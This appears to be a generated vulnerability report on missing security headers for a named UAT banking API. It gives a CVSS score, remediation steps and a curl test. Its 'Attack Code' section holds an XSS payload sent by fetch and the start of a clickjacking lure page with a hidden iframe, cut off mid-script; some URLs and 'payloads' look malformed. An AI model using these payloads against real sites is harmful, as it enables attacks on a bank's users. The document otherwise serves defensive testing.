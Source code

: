 **🛡️ Prevention Methods:**
- Implement Content Security Policy (CSP)
- Set X-Frame-Options to prevent clickjacking
- Enable Strict-Transport-Security (HSTS)
- Set X-Content-Type-Options to nosniff
- Configure Referrer-Policy
- Set Permissions-Policy for feature control

**📋 Testing Commands:**
```bash
# Test 1: Referrer-Policy
curl -X GET "https://api.uat-nesfb.com/non-banking/discovery/v1/collectrequest?sliceAccountActiveStatus=false&connectionFailure=false&subscriptionFailure=false?input=Referrer-Policy"

```

---

### 4. Security Headers Vulnerability

**🎯 Target:** `https://api.uat-nesfb.com/non-banking/discovery/v1/collectrequest?sliceAccountActiveStatus=false&connectionFailure=false&subscriptionFailure=false`

**📝 Description:** Missing security headers expose the application to various attacks including XSS, clickjacking, and protocol downgrade attacks.

**💥 Impact:** XSS, clickjacking, protocol downgrade, MIME confusion attacks, information disclosure

**🔍 CVSS Score:** 6.5 (Medium)

**📊 CVSS Details:**
- **Attack Vector:** Network
- **Complexity:** Low
- **Privileges Required:** None
- **User Interaction:** Required
- **Scope:** Unchanged
- **Confidentiality:** Low
- **Integrity:** Low
- **Availability:** None

**🔴 Priority:** Medium - Within 1 month

**🎯 Successful Payloads:**
1. `Permissions-Policy`

**⚔️ Attack Code (How to Simulate):**
```javascript
// Security Headers Attack Code
// 1. XSS Attack (if CSP missing)
const xssPayload = "<script>alert('XSS')</script>";
fetch("https://api.uat-nesfb.com/non-banking/discovery/v1/collectrequest?sliceAccountActiveStatus=false&connectionFailure=false&subscriptionFailure=false?q=" + encodeURIComponent(xssPayload));

// 2. Clickjacking Attack (if X-Frame-Options missing)
const clickjackingPage = `
<!DOCTYPE html>
<html>
<head><title>Free Prize!</title></head>
<body>
    <h1>🎁 Click for free prize!</h1>
    <iframe src="https://api.uat-nesfb.com/non-banking/discovery/v1/collectrequest?sliceAccountActiveStatus=false&connectionFailure=false&subscriptionFailure=false" style="opacity:0.1; position:absolute; top:50px; left:50px;"></iframe>
    <button onclick="triggerDelete()" style="position:absolute; top:50px; left:50px; z-index:1000;">
        🎁 CLAIM PRIZE
    </button>
    <script>
```